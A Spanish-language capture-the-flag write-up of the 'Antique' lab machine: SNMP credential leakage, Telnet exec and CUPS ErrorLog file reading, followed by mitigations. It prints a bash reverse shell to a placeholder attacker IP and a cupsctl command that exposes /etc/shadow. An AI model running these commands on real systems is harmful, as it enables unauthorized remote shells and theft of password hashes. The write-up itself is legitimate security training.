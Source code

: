 # Antique — Writeup

**Resumen rápido**  
Máquina objetivo con servicio Telnet expuesto (impresora HP JetDirect) y SNMP accesible que filtra credenciales. Exploté SNMP para recuperar la contraseña del servicio Telnet, obtuve una reverse shell como usuario local, y luego escalé a `root` aprovechando una vulnerabilidad en CUPS (lectura de ficheros mediante ErrorLog). Resultado: `user.txt` y `root.txt` obtenidos.

---

## Tabla de contenidos
- [Resumen](#resumen)
- [Reconocimiento](#reconocimiento)
- [Enumeración](#enumeración)
- [Explotación inicial — Telnet via SNMP](#explotación-inicial---telnet-via-snmp)
- [Reverse shell y obtención de `user.txt`](#reverse-shell-y-obtención-de-usertxt)
- [Escalada de privilegios — CUPS (ErrorLog) exploit](#escalada-de-privilegios---cups-errorlog-exploit)
- [Cadena de explotación (resumen)](#cadena-de-explotación-resumen)
- [Mitigaciones recomendadas](#mitigaciones-recomendadas)
- [Appendix — comandos y scripts usados (sin cambios)](#appendix--comandos-y-scripts-usados-sin-cambios)

---

## Resumen
En esta máquina identifiqué un servicio Telnet en el puerto 23 que parecía pertenecer a una impresora HP JetDirect. Tras fallar con intentos de contraseña trivial, enumeré la red y encontré SNMP (UDP 161) expuesto. Con `snmpwalk` extraje una cadena hexadecimal que, al decodificarla, resultó ser la contraseña de la impresora. Me conecté por Telnet, ejecuté un comando `exec` para lanzar una reverse shell y obtuve `user.txt`. Para la escalada, descubrí un servicio web CUPS en el puerto 631; usando la opción `cupsctl` cambié el `ErrorLog` a un fichero sensible (`/etc/shadow` y posteriormente la `root.txt`) y lo visualicé vía la interfaz de logs de CUPS para obtener `root.txt`.

---

## Reconocimiento

- Realicé un escaneo TCP/UDP para descubrir servicios.
- Detecté **puerto 23 (Telnet)** abierto; el banner/behavior sugería una impresora HP JetDirect.
- Tras conectar por Telnet, el login no se consiguió con contraseñas triviales, por lo que procedí a una enumeración más exhaustiva, incluyendo UDP.

---

## Enumeración

- Busqué puertos UDP y encontré **161/udp (SNMP)** abierto.
- Enumeré SNMP con `snmpwalk` para intentar extraer información sensible.

Comando usado para SNMP enumeration (tal cual):
```bash
snmpwalk -c COMUNITY_STRING -v 2c IP_VICTIMA 1
````

* La salida contenía una **cadena en hexadecimal**. Al decodificarla resultó ser la contraseña de Telnet de la impresora.

**Nota:** SNMP mal configurado (p. ej. community string por defecto o información excesiva disponible) puede revelar secretos críticos. Aquí se aprovechó para recuperar credenciales locales de un servicio.

---

## Explotación inicial — Telnet via SNMP

* Con la contraseña extraída por SNMP me conecté vía Telnet a la impresora/servicio en el puerto 23.
* En la sesión de Telnet el comando `?` mostró que la impresora permitía ejecutar comandos (capacidad de ejecución remota).
* Aprovechando esto se ejecutó un `exec` para lanzar una reverse shell hacia mi máquina atacante.

Comando usado en Telnet (tal cual):

```
exec bash -c "bash -i >& /dev/tcp/IP_ATACANTE/4444 0>&1"
```

---

## Reverse shell y obtención de `user.txt`

* Tras ejecutar el `exec` desde Telnet, recibí una reverse shell en mi listener y pude explorar el sistema con los privilegios del proceso que ejecuta la impresora (usuario local).
* Localicé `user.txt` en el directorio home de la víctima y lo recuperé.

**Ruta de `user.txt`:**

> `user.txt` ubicado en el directorio home del usuario en la máquina objetivo (según tus notas).

---

## Escalada de privilegios — CUPS (ErrorLog) exploit

* Buscando escalada revisé puertos y procesos locales para encontrar servicios accesibles internamente:

  * Ejecuté `netstat -ano` y observé que había algo escuchando en **puerto 631**.
  * Intenté conectar con `netcat` sin éxito directo, pero un `curl` a ese puerto confirmó que era una interfaz web (CUPS).

* Para ver la web usé SSH/`chisel` para hacer port forwarding y acceder desde mi máquina, confirmando la versión del servicio: **CUPS 1.6.1**.

* Aproveché una vulnerabilidad en CUPS relacionada con los logs de error: CUPS permite cambiar la ubicación del error log con `cupsctl`. Al redefinir `ErrorLog` a un fichero del sistema (por ejemplo `/etc/shadow`), se puede acceder al archivo a través de la interfaz de logs de CUPS:

Comando usado (tal cual):

```
cupsctl ErrorLog="/etc/shadow"
```

* Después apunté al endpoint de logs de CUPS, por ejemplo:

```
http://localhost:631/admin/log/error_log
```

y pude visualizar `/etc/shadow`.

* Repetí el proceso apuntando el `ErrorLog` a la ruta que contiene `root.txt` (suponiendo `/root/root.txt`) y así obtuve la `root.txt`.

**Importante:** esta técnica explota capacidades administrativas de CUPS para redirigir el archivo de log a archivos arbitrarios y luego exponerlos vía la interfaz de administración. En entornos mal configurados donde la interfaz es accesible sin restricciones, permite lectura de ficheros arbitrarios como `root`.

---

## Cadena de explotación (resumen)

1. Escaneo inicial → puerto **23 (Telnet)** abierto (impresora HP JetDirect).
2. Enumeración UDP → **161/udp (SNMP)** encontrado.
3. `snmpwalk` → extracción de cadena hex → decodificada = contraseña Telnet.
4. Conexión Telnet → uso de `exec` para lanzar reverse shell → obtención de `user.txt`.
5. Búsqueda de servicios locales → **631 (CUPS)** detectado.
6. Uso de `cupsctl` para fijar `ErrorLog` a `/etc/shadow` (y luego a `root.txt`) y lectura vía `http://localhost:631/admin/log/error_log`.
7. Lectura de `root.txt` → `root` comprometido.

---

## Mitigaciones recomendadas

* **SNMP:** no exponer SNMP en interfaces no confiables; usar SNMPv3 con autenticación y cifrado; cambiar community strings por defecto y limitar acceso por ACL/IP.
* **Telnet:** evitar Telnet en favor de SSH; si un dispositivo necesita acceso remoto, usar túneles seguros y credenciales fuertes.
* **Control de ejecución en dispositivos:** limitar comandos ejecutables desde interfaces de gestión (Telnet/HTTP) y aplicar autenticación fuerte y control de acceso.
* **CUPS:** restringir acceso a la interfaz de administración de CUPS (bind a localhost, firewall, autenticación), parchear a versiones sin la vulnerabilidad; evitar permitir `cupsctl` sin restricciones o desde contextos no seguros.
* **Hardening general:** revisar permisos de servicios y ficheros, minimizar superficie expuesta y aplicar autenticación/registro/monitorización para detectar exfiltración y cambios en la configuración.

---

## Appendix — comandos y scripts usados (sin cambios)

### SNMP enumeration

```bash
snmpwalk -c COMUNITY_STRING -v 2c IP_VICTIMA 1
```

### Telnet — exec reverse shell (comando usado dentro de Telnet)

```
exec bash -c "bash -i >& /dev/tcp/IP_ATACANTE/4444 0>&1"
```

### Netstat

```bash
netstat -ano
```

### cupsctl para redirigir ErrorLog (leer /etc/shadow vía CUPS)

```
cupsctl ErrorLog="/etc/shadow"
```

### Endpoint de logs de CUPS (ejemplo)

Acceder en el navegador o con curl:

```
http://localhost:631/admin/log/error_log
```

---

## Notas finales

* Esta máquina ilustra una cadena clásica donde servicios de gestión expuestos (SNMP, Telnet, paneles administrativos) y malas prácticas en la configuración (CUPS accesible sin restricciones) se combinan para una escalada completa.
* En entornos reales, la exposición de SNMP y Telnet, junto con interfaces administrativas sin autenticación/seguridad, representa riesgos críticos.

